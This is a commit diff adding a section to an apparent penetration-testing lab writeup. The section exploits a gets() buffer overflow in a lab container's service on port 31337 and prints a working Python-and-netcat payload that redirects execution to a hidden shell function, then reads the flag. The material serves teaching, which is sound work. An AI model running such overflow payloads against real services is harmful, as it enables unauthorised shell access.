

Before and after one commit to bayufedra/MBPTL, a Markdown page: writeup/README.md, the part around the change printed below. Shown: that part at 92% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
MBPTL Update WU

````diff
--- a/writeup/README.md
+++ b/writeup/README.md
@@ -466,6 +466,41 @@ Since we have root access on the main container, we can also try to access the i
 
 #### FLAG PIVOT: PIVOTING{b036ea40f13e3287b8e8babd5749e7cf}
 
+## Internal Service Exploitation: mbptl-internal (Buffer Overflow)
+
+After pivoting to the internal network, we discovered a service running on port 31337 inside the `mbptl-internal` container. This service is a custom C binary (`main`).
+
+### Vulnerability Analysis
+- The program uses `gets()` to read user input into a 128-byte buffer, making it vulnerable to a classic buffer overflow.
+- There is a hidden function `__secret()` that spawns a shell with `system("/bin/bash")`.
+- The binary is compiled with `-no-pie` and without stack protections, making it straightforward to exploit.
+
+### Exploitation Steps
+1. **Identify the Offset:**
+   - The buffer is 128 bytes, plus 8 bytes for saved RBP, so the return address is at offset 136.
+2. **Find Gadgets:**
+   - The goal is to redirect execution to `__secret`. However, if stack alignment is required, a `ret` gadget may be needed.
+   - In this case, the payload uses two addresses: a `ret` gadget at `0x401282` and the `__secret` function at `0x4011b6`.
+3. **Craft the Payload:**
+   - The payload consists of 136 bytes of padding, followed by the address of the `ret` gadget, then the address of `__secret`.
+
+#### Exploit Payload
+```bash
+(python3 -c 'import struct, sys; sys.stdout.buffer.write(b"A"*136 + struct.pack("<Q", 0x401282) + struct.pack("<Q", 0x4011b6))'; cat -) | nc mbptl-internal 31337
+```
+- This command sends the overflow payload to the service, spawning a shell.
+
+#### Reading the Flag
+Once the shell is obtained, simply read the flag:
+```bash
+cat /flag.txt
+```
+
+**Flag:**
+```
+FLAG{c7e0cb7880fd168f41f25e24767660f6}
+```
+
 ## Conclusion
 
 This lab demonstrates a complete penetration testing methodology covering:
````
Also changed, not shown: other parts of writeup/README.md (+3 -1 lines).
